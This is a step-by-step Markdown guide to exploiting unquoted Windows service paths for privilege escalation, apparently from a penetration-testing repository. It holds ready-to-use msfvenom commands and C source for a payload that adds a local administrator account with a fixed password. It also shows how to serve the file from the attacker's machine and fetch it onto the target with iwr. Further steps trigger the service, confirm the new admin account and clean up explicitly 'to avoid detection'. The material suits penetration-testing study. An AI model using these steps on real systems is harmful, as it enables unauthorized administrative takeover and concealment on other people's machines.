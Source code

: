 Unquoted Service Paths

### Overview
Unquoted service paths present an opportunity for privilege escalation on Windows systems. When a service executable's path contains spaces and is **not enclosed in quotes**, Windows may misinterpret the path when starting the service. By exploiting this, an attacker can place a malicious executable in a writable directory, matching part of the unquoted path, and execute it with the privileges of the service (often LocalSystem).

---

### Step 1: Identify Unquoted Service Paths
Start by running **WinRecon.ps1** to enumerate services for unquoted paths:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Check services for **unquoted paths**.

#### Example Output:

![image](https://github.com/user-attachments/assets/7c50a419-eb9d-4751-800f-80de50e5afcc)


In this example, `GammaService` has an unquoted service path, making it a candidate for exploitation.

---

### Step 2: Verify Permissions and Start/Stop the Service
Before exploitation, confirm that:
1. You have permissions to **start** and **stop** the service.
2. You have **write permissions** in one of the directories derived from the unquoted path.

```powershell
net start <ServiceName>
net start GammaService
```

---

### Step 3: Create the Malicious Executable
The goal is to create an executable file that matches part of the unquoted path. In this case, we'll name the file `Current.exe` and place it in `C:\Program Files\Enterprise Apps`.

+
    ### Option 1 msfvenom
    ```bash
    msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o <FileName>.exe
    ```
    ```bash
    msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o Current.exe
    ```

+
    ### Option 2 Manual Compile
    #### Malicious Executable Code
    We will use C code to create a new local administrative user:
    ```c
    #include <stdlib.h>

    int main() {
        system("net user taskmgrsvc Password123! /add");
        system("net localgroup administrators taskmgrsvc /add");
        return 0;
    } 
    ```

    #### Compile the Executable
    On your Kali machine, cross-compile the C code:

    ```bash
    x86_64-w64-mingw32-gcc adduser.c -o Current.exe
    ```

---

### Step 4: Transfer the Malicious Executable
Host the executable on your attacker machine and transfer it to the target directory:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. Download the executable on the target machine:
   ```powershell
   iwr -uri http://<attacker_ip>/Current.exe -OutFile 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
3. Verify the file exists:
   ```powershell
   ls 'C:\Program Files\Enterprise Apps\Current.exe'
   ```

---

### Step 5: Trigger the Exploit
Start the vulnerable service to trigger the execution of the malicious file:

```powershell
Start-Service -Name GammaService
```

If the service is configured to run with **LocalSystem** privileges, your malicious `Current.exe` will execute with the same privileges.

---

### Step 6: Verify Exploitation
Check if the new user was created and added to the Administrators group:

1. Verify the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the `taskmgrsvc` user was created and added to the Administrators group.

---

### Step 7: Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious executable:
   ```powershell
   del 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Unquoted service paths require specific conditions, such as missing quotes in the binary path and writable permissions in intermediate directories.
- Ensure you identify all writable paths before placing the malicious executable.
- Use PowerUp's `Get-UnquotedService` function to automate the discovery process:
   ```powershell
   Import-Module .\PowerUp.ps1
   Get-UnquotedService
   ```

---

### References
- [HackTricks - Unquoted Service Paths](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/unquoted-service-paths)
- Microsoft Documentation on Service Paths

---

**End of Unquoted Service Path Exploit Guide**
